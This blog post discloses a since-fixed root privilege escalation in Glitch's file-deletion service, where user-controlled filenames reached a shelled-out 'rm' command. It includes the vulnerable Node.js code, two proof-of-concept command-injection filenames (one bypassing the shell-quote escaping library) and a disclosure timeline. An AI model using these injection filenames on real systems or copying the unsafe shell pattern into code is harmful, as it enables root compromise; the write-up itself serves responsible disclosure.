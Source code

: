 ```yaml
---
date: Wed Nov 10 2021 23:22:39 -0800 (Pacific Standard Time)
qualitative_time: 
title: The privileged daemon that used shell-quote
previous_teaser: How to disown a weapon in GTA Online
previous_first: true
has_highlighting: true
---
```

In 2020, I discovered a root privilege escalation vulnerability in the way Glitch deletes project files.
This vulnerability is now fixed.

# Brief summary

A program that ran as root would do this:

```js
child_process.execSync(`rm -r '${fullOldPath}'`);
```

# Where was this?

Inside project containers, a service called "OT storage" (OT referring to _operational transformation_, an algorithm Glitch uses to manage concurrent modifications to the project from multiple users) accepts changes from the editor and applies the changes to the project container's filesystem.
The OT storage service runs as root (I don't know why).

One of the operations the OT storage service performs is to delete a given directory and its contents.
The OT storage service is written in Node.js, the standard library of which does not provide a way to delete a directory recursively.
So it's up to the application to implement logic to do that or to use a third-party library.
Maybe using the `rm` program's recursive deletion was the most appealing way to do it.

# A copy of the report I sent to Glitch

In various places in the ot-storage service, it shells out like this:

```js
child_process.execSync(`rm -f '${completePath}'`);
```

With a number of dangerous qualities:

1. It uses the raw `child_process` module, which doesn't switch to the app user.
2. It includes user-controlled data in `completePath`.
3. It constructs the command using string concatenation.
4. It doesn't escape or sanitize the varying part.

A specially crafted filename can trick ot-storage into running other shell commands.
Because ot-storage runs as root, those commands will run as root.

## Sample exploit with dummy payload

In the terminal:

```sh
touch touch a\'\;id\>me\'
touch a
refresh
```

In the editor, delete `a';id>me'`.

Verify in the terminal:

```sh
ls # a gone
ls -l /opt/watcher/me # created, owned by root
```

# Notes

The JavaScript line I quoted in the report wasn't the one that the sample exploit triggered.
The sample exploit triggered the one I put in the brief summary section above.

The line I quoted in the report was used for cleaning up a failed write in some exotic cases.
This one didn't have to be recursive, but maybe they shelled out just for consistency.

# Glitch's fix

They stuck with using `rm -r` for recursive deletion, but they used a package called `shell-quote` to escape the filename.

```js
const shell_quote_1 = require("shell-quote");
...
child_process.execSync(shell_quote_1.quote(['rm', '-r', fullOldPath]));
```

# Further investigation

Around the time Glitch notified me of their fix, I was working on a project that needed to quote some text for shell parameters.
In my project, I opted to write [my own logic](https://github.com/wh0/snail-cli/blob/v2.9.0/src/index.js#L331-L333) to do it:

```js
function shellWord(s) {
  return '\'' + s.replace(/'/g, '\'"\'"\'') + '\'';
}
```

(Don't look at how it's used.
I know there is a critical problem with that.)

I wanted to know how other people did it---perhaps the people who contributed to the 10,559,861 weekly downloads were on to something---so I looked into how the shell-quote package worked.
It was quite different from how I was doing it.
In comparing the behaviors, I found a [vulnerability in shell-quote](/2021/10/28/shell-quote-rce-exploiting.html) that I mentioned in an earlier post, and I reported it to the shell-quote project.

I kept the shell-quote vulnerability private during that time.
I suggested to Glitch that they use `execFileSync` so that they wouldn't have to bother with quoting in the first place, but they declined to take action without a proof of concept exploit.

Soon after, the shell-quote project released a fixed version and publicly disclosed the vulnerability.
Glitch then updated to that fixed version.

Here's how this would have been exploited on Glitch though:

```sh
cat >/app/other.sh <<EOF
#!/bin/sh
id >/tmp/i-am-pwned
echo oh no
EOF
chmod +x /app/other.sh
mkdir '`:`'
mkdir '`:`/app'
touch '`:`/app/other.sh``:`'
refresh
```
Then delete ``` '`:`/app/other.sh``:`' ``` in the editor:

![](/assets/2021/glitch-ot-rm-tree.png)

# Timeline

**2020/11/10**
I find this vulnerability.
I send the report to Glitch.

**2020/11/11**
Glitch forwards the report to the engineering team.

**2021/10/08**
I ask about the status of this report.

**2021/10/14**
Glitch notifies me that they've deployed a fix.
I find the shell-quote vulnerability.
I report that to the shell-quote team for confirmation.
I suggest `execFileSync` to Glitch.

**2021/10/15**
Glitch replies that they won't take action.

**2021/10/21**
The shell-quote correspondence simultaneously confirms the vulnerability, announces it, and publishes a fixed version.
I inform Glitch of the fixed version.

**2021/10/26**
Glitch deploys the fixed version of shell-quote.
We come to an agreement that the vulnerability is fixed.

# Discussion

Special mention to RiversideRocks for raising awareness about shell safety in a [CTF challenge]( https://support.glitch.com/t/can-you-read-the-secret-file/30396) featuring command injection shortly before this.

This is the second time we're seeing the date 2021/10/08 involved.
We'll be seeing it a few more times in the future too.
